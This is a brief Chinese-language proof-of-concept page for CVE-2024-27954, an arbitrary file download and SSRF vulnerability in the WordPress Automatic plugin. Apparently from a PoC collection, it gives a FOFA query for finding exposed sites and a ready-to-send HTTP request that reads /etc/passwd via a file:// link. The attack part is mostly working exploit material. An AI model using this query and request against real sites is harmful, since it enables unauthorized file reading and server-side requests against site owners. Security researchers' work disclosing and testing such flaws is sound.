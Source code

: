 # CVE-2024-27954：WordPress Automatic 插件任意文件下载和SSRF漏洞

## 1.漏洞描述

WordPress Automatic 插件存在任意文件下载和SSRF漏洞

## 2.搜索语法

```plain
fofa："/wp-content/plugins/wp-automatic"
```

## 3.漏洞复现

```plain
GET /?p=3232&wp_automatic=download&link=file:///etc/passwd HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/3a85c28a-3957-43b9-90fc-81e367b20109)
